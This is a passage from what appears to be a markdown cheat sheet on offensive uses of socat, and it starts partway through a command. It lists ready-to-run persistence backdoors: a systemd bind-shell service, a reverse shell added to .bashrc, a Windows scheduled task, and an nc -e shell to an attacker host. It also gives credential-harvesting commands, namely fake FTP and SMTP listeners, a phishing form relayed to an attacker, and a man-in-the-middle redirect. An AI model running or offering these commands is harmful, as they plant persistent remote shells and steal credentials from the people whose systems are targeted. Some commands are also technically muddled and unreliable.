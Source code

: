     [Service]
    ExecStart=/usr/bin/socat TCP-LISTEN:<local_port>,reuseaddr,fork EXEC:/bin/bash,pty,stderr,setsid,sigint,sane

    [Install]
    WantedBy=multi-user.target" > /etc/systemd/system/socat-backdoor.service

    systemctl enable socat-backdoor.service
    systemctl start socat-backdoor.service
    ```
3. **Manipulating User Startup Scripts**: Adds a SoCat backdoor to a user's `.bashrc` file for persistence.
    ```bash
    echo "socat TCP:<attack_ip>:<attack_port> EXEC:/bin/bash,pty,stderr,setsid,sigint,sane &" >> ~/.bashrc
    ```
4. **Scheduled Task for Windows Persistence**: Creates a scheduled task on a Windows system to maintain persistence.
    ```bash
    echo "schtasks /create /sc minute /mo 5 /tn SoCat_Backdoor /tr \"socat TCP:<attack_ip>:<attack_port> EXEC:cmd.exe,pty,stderr,setsid,sigint,sane\"" > C:\Windows\Temp\socat-backdoor.bat
    ```
5. **Covert Persistence via Network Services**: Establishes a persistent backdoor through an existing network service.
    ```bash
    socat TCP-LISTEN:<local_port>,reuseaddr,fork EXEC:"nc -e /bin/bash <attack_ip> <attack_port>"
    ```

#### Credential Harvesting

SoCat can intercept and capture credentials as they are transmitted over the network or via phishing techniques.

1. **Intercepting FTP Credentials**: Captures FTP credentials by listening on port 21.
    ```bash
    socat TCP-LISTEN:21,reuseaddr,fork SYSTEM:"tee ftp_credentials.txt"
    ```
2. **Phishing with Fake Login Page**: Hosts a fake login page to capture user credentials.
    ```bash
    socat TCP-LISTEN:80,reuseaddr,fork SYSTEM:"echo 'HTTP/1.1 200 OK\r\n\r\n<form method=\"POST\"><input name=\"user\"><input name=\"pass\"><input type=\"submit\"></form>' | socat - TCP:<attack_ip>:<attack_port>"
    ```
3. **Intercepting SMTP Credentials**: Listens on port 25 to intercept SMTP credentials.
    ```bash
    socat TCP-LISTEN:25,reuseaddr,fork SYSTEM:"tee smtp_credentials.txt"
    ```
4. **Man-in-the-Middle Attack for Credential Harvesting**: Redirects HTTP traffic to capture credentials during a man-in-the-middle attack.
    ```bash
    socat TCP-LISTEN:<local_port>,reuseaddr,fork SYSTEM:"iptables -t nat -A PREROUTING -p tcp --dport 80 -j REDIRECT --to-port <capture_port>" | socat - TCP:<target_ip>:<target_port> SYSTEM:"tee http_credentials.txt"
    ```
5. **Honeyport for Credential Harvesting**: Sets up a honeyport to attract and capture unauthorized login attempts.
    ```bash
    socat TCP-LISTEN:<honeyport>,reuseaddr,fork SYSTEM:"tee credentials.txt"
    ```
